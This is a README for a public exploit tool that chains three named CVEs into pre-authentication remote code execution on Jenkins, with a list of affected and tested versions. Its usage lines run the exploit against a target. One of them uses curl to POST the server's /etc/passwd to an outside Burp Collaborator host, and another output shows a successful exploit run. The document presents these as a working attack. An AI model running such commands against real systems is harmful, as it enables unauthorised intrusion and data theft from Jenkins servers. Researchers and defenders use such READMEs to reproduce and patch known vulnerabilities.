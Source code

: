 # awesome-jenkins-rce-2019

python exp.py https://admin.com/jenkins/ 'curl -X POST -d @/etc/passwd ttqjdy7l0qfdohel7j20aws1zs5it7.burpcollaborator.net'


There is no pre-auth RCE in Jenkins since May 2017, but this is the one!

It chains CVE-2018-1000861, CVE-2019-1003005 and CVE-2019-1003029 to a more reliable and elegant pre-auth remote code execution!


# Affect list

* ANONYMOUS_READ disable
    - Jenkins version < 2.138

* ANONYMOUS_READ enable(or with a normal user account)
    - Jenkins build time < 2019-01-28



# Usage

```bash
$ curl -s -I http://jenkins/| grep X-Jenkins
X-Jenkins: 2.137
X-Jenkins-Session: 20f72c2e
X-Jenkins-CLI-Port: 50000
X-Jenkins-CLI2-Port: 50000

$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```


# Tested on

* Jenkins 2.53
* Jenkins 2.122
* Jenkins 2.137
* Jenkins 2.138 with ANONYMOUS_READ enable
* Jenkins 2.152 with ANONYMOUS_READ enable
* Jenkins 2.153 with ANONYMOUS_READ enable
* Script Security Plugin 1.43
* Script Security Plugin 1.48


# Acknowledgements

* [@orange_8361](https://twitter.com/orange_8361) for CVE-2018-1000861
* [@0ang3el](https://twitter.com/0ang3el) for CVE-2019-1003005
* [@webpentest](https://twitter.com/webpentest) for CVE-2019-1003029


Part slides from my HITB AMS 2019 talk:

![1.png](img/1.png)
![2.png](img/2.png)
![3.png](img/3.png)



# References

* [Hacking Jenkins Part 1 - Play with Dynamic Routing](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html)
* [Hacking Jenkins Part 2 - Abusing Meta Programming for Unauthenticated RCE!](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html)
* [Jenkins Security Advisory 2018-12-05](https://jenkins.io/security/advisory/2019-12-05/)
* [Jenkins Security Advisory 2019-01-28](https://jenkins.io/security/advisory/2019-01-28/)
* [Jenkins Security Advisory 2019-03-06](https://jenkins.io/security/advisory/2019-03-06/)
